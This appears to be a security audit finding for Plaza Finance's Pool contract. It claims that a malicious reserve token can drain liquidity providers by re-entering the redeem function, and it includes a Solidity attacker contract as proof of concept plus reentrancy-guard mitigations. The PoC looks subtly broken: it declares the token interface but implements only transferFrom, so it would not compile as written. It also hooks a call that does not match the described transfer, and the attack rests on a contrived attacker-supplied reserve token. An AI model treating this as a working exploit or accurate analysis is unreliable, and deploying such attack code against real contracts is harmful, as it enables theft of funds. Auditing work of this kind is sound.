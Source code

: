 Dizzy Paisley Starfish

High

# Malicious token contract will drain all reserve tokens from liquidity providers

### Summary

A missing state lock in the redemption flow will cause a complete loss of funds for liquidity providers as an attacker will exploit reentrancy vulnerabilities in the token transfer callbacks to perform multiple redemptions with the same tokens.

### Root Cause

In [Pool.sol#383-414](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L383-L414) the redemption function performs token burns before external transfers without proper state locks, allowing for potential reentrancy attacks through malicious token contracts.

### Internal Pre-conditions

1. Pool contract needs to have sufficient reserve tokens for redemptions
2. Pool contract must be actively accepting redemptions (not paused)
3. Attacker needs to have enough tokens to initiate at least one redemption

### External Pre-conditions

1. The reserve token contract must be a malicious implementation that includes callback functionality
2. Network gas prices need to be within profitable range for multiple transactions

### Attack Path

1. Attacker deploys a malicious token contract that implements the ERC20 interface with custom transfer logic
2. Attacker acquires legitimate pool tokens through normal means
3. Attacker initiates a redemption with their tokens
4. During the reserve token transfer, the malicious token contract's callback is triggered
5. The callback re-enters the pool contract through a different redemption call
6. The second redemption executes before the first one completes
7. Steps 4-6 can be repeated until the pool is drained or gas limits are reached

### Impact

The pool suffers a complete loss of reserve tokens proportional to the number of successful reentrancy loops. The attacker gains multiple redemptions worth of reserve tokens while only spending tokens once. In a worst-case scenario, this could drain the entire pool's reserves.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Pool.sol";

contract MaliciousToken is IERC20 {
    Pool public pool;
    uint256 public attackCount;
    uint256 public constant ATTACK_ROUNDS = 5;

    constructor(address _pool) {
        pool = Pool(_pool);
    }

    function transferFrom(address from, address to, uint256 amount) external returns (bool) {
        if (attackCount < ATTACK_ROUNDS) {
            attackCount++;
            // Malicious reentry
            pool.redeem(
                Pool.TokenType.BOND,
                amount,
                0,
                block.timestamp,
                address(this)
            );
        }
        return true;
    }

    // Test function
    function attack(uint256 amount) external {
        attackCount = 0;
        pool.redeem(
            Pool.TokenType.BOND,
            amount,
            0,
            block.timestamp,
            address(this)
        );
    }
}
```

### Mitigation

1. Implement strict state locks for redemption operations:
```solidity
bool private _isRedeeming;

modifier nonReentrantRedeem() {
    require(!_isRedeeming, "Reentrant redemption");
    _isRedeeming = true;
    _;
    _isRedeeming = false;
}

function redeem(...) external nonReentrant nonReentrantRedeem {
    // Existing redemption logic
}
```

2. Implement a two-step withdrawal pattern where redemptions are claimed in a separate transaction:
```solidity
mapping(address => uint256) public pendingRedemptions;

function requestRedemption(uint256 amount) external nonReentrant {
    _burn(msg.sender, amount);
    pendingRedemptions[msg.sender] += calculateReserveAmount(amount);
}

function claimRedemption() external {
    uint256 amount = pendingRedemptions[msg.sender];
    require(amount > 0, "No pending redemption");
    pendingRedemptions[msg.sender] = 0;
    SafeERC20.safeTransfer(reserveToken, msg.sender, amount);
}
```